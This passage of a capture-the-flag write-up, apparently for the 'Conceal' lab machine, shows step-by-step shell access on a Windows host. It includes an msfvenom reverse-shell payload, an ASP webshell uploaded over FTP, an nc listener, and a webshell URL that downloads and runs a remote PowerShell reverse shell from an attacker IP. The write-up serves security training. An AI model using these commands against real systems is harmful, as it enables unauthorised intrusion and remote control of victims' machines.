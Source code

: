 Nmap found `ftp` running, so we can possibly upload a file there, then execute it via the upload folder.


`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.17 lport=443 -o e.asp`

Pull the trigger by browsing to `conceal.htb/upload/e.htb`

The exploit fails to get a shell, so another course of action is required.



<hr width="250" size="6">


<h3>FTP Upload Webshell</h3>

Upload cmd.asp webshell found in /usr/share/webshells/asp/

copy powershell reverse-shell to pwd (present working directory) in kali, with the following
line appended to the bottom.

`Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.19 -Port 443`

##############


Use python webserver to serve the powershell reverse-shell...

`python3 -m http.server 80`

Set the nc listener...

`nc -nlvp 443`

```
http://conceal.htb/upload/cmd.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.17/shell.ps1%27)
```



We got shell as Destitute.

```

    Directory: C:\users\destitute\desktop


Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
-a----       12/10/2018     23:58             32 proof.txt                                        


PS C:\users\destitute\desktop> type proof.txt
6ExxxxxxxxxxxxxxxxxxxxxxxxxxxxxFF

```
